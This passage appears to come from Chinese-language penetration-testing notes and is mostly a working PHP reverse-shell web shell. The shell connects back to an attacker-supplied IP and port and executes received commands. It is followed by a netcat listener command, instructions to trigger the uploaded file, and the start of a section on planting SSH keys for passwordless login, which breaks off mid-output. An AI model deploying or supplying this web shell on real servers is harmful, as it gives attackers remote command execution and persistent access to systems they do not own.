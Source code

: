 

#### 4. php 回弹马

```php
<?php

set_time_limit(0);

$ip=$_POST['ip'];

$port=$_POST['port'];

$fp=@fsockopen($ip,$port,$errno,$errstr);

if(!$fp){ echo "error";}

else{

fputs($fp,"\n++++++++++connect success++++++++\n");

while (!feof($fp)) {

fputs($fp,"[php-shell]:");//输出

$shell=fgets($fp);

$message=`$shell`;

fputs($fp,$message);

}

fclose($fp);

}

?>

```

kali 开启  nc 监听。`nc -lvp 4444`

访问网站此文件，传参要反弹的 ip 和端口。

#### 5. **ssh公私钥免密登录**

在客户端上生成一对公私钥，然后把公钥放到服务器上（~/.ssh/authorized_keys），保留私钥。当ssh登录时，ssh程序会发送私钥去和服务器上的公钥做匹配。如果匹配成功就可以登录了。

* 利用 `ssh-keygen` 生成公私钥。（三次默认回车）

  ```bash
  root@localhost:~# ssh-keygen
  Generating public/private rsa key pair.
  Enter file in which to save the key (/root/.ssh/id_rsa): 
  Enter passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved in /root/.ssh/id_rsa
  Your public key has been saved in /root/.ssh/id_rsa.pub
  The key fingerprint is:
  SHA256:CzcOO20jhdgcYrznvPL7CzIfG6/6GMZkOttb2OEB6lE root@localhost
  The key's randomart image is:
  +---[RSA 3072]----+
  |                 |
  |   .             |
  |    E .          |
  |   + B o         |
  ```
